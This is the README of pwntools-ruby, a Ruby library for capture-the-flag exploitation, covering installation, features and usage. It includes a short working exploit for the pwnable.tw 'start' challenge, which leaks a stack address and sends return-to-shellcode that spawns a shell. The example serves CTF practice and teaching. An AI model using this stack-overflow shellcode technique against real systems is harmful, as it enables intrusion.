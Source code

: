 [![GitHub stars](https://img.shields.io/github/stars/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/stargazers)
[![GitHub issues](https://img.shields.io/github/issues/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/issues)
[![Build Status](https://img.shields.io/travis/peter50216/pwntools-ruby.svg)](https://travis-ci.org/peter50216/pwntools-ruby)
[![Test Coverage](https://img.shields.io/codeclimate/coverage/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby/coverage)
[![Code Climate](https://img.shields.io/codeclimate/maintainability/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby)
[![Inline docs](https://inch-ci.org/github/peter50216/pwntools-ruby.svg)](https://inch-ci.org/github/peter50216/pwntools-ruby)
[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](http://choosealicense.com/licenses/mit/)
[![Dependabot Status](https://api.dependabot.com/badges/status?host=github&repo=peter50216/pwntools-ruby)](https://dependabot.com)
[![Rawsec's CyberSecurity Inventory](https://inventory.rawsec.ml/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.rawsec.ml/)
<!-- [![Dependency Status](https://img.shields.io/gemnasium/peter50216/pwntools-ruby.svg)](https://gemnasium.com/peter50216/pwntools-ruby) -->

# pwntools-ruby

Always sad when playing CTF that there's nothing equivalent to pwntools in Python.
While pwntools is awesome, I always love Ruby far more than Python...
So this is an attempt to create such library.

Would try to have consistent naming with original pwntools, and do things in Ruby style.

# Example Usage

Here's an exploitation for `start` which is a challenge on [pwnable.tw](https://pwnable.tw).

```ruby
# encoding: ASCII-8BIT
# The encoding line is important most time, or you'll get "\u0000" when using "\x00" in code,
# which is NOT what we want when doing pwn...

require 'pwn'

context.arch = 'i386'
context.log_level = :debug
z = Sock.new 'chall.pwnable.tw', 10000

z.recvuntil "Let's start the CTF:"
z.send p32(0x8048087).rjust(0x18, 'A')
stk = u32(z.recvuntil "\xff")
log.info "stack address: #{stk.hex}" # Log stack address

# Return to shellcode
addr = stk + 0x14
payload = addr.p32.rjust(0x18, 'A') + asm(shellcraft.sh)
z.write payload

# Switch to interactive mode
z.interact
```

More features and details can be found in the
[documentation](http://www.rubydoc.info/github/peter50216/pwntools-ruby/master/frames).

# Installation

### Install the latest release:
```sh
gem install pwntools
```

### Install from master branch:
```sh
git clone https://github.com/peter50216/pwntools-ruby
cd pwntools-ruby
bundle install && bundle exec rake install
```

### optional

Some of the features (assembling/disassembling) require non-Ruby dependencies. Checkout the
installation guide for
[keystone-engine](https://github.com/keystone-engine/keystone/tree/master/docs) and
[capstone-engine](http://www.capstone-engine.org/documentation.html).

Or you are able to get running quickly with

```sh
# Install Capstone
sudo apt-get install libcapstone3

# Compile and install Keystone from source
sudo apt-get install cmake
git clone https://github.com/keystone-engine/keystone.git /tmp/keystone
cd /tmp/keystone
mkdir build
cd build
../make-share.sh
sudo make install
```

# Supported Features

## Architectures

- [x] i386
- [x] amd64
- [ ] arm
- [ ] thumb

## Modules

- [x] context
- [x] asm
- [x] disasm
- [x] shellcraft
- [x] elf
- [x] dynelf
- [x] logger
- [x] tube
  - [x] sock
  - [x] process
  - [x] serialtube
- [ ] fmtstr
- [x] util
  - [x] pack
  - [x] cyclic
  - [x] fiddling

# Development
```sh
git clone https://github.com/peter50216/pwntools-ruby
cd pwntools-ruby
bundle
bundle exec rake
```

# Note to irb users
irb defines `main.context`.

For the ease of exploit development in irb, that method would be removed if you use `require 'pwn'`.

You can still get the `IRB::Context` by `irb_context`.
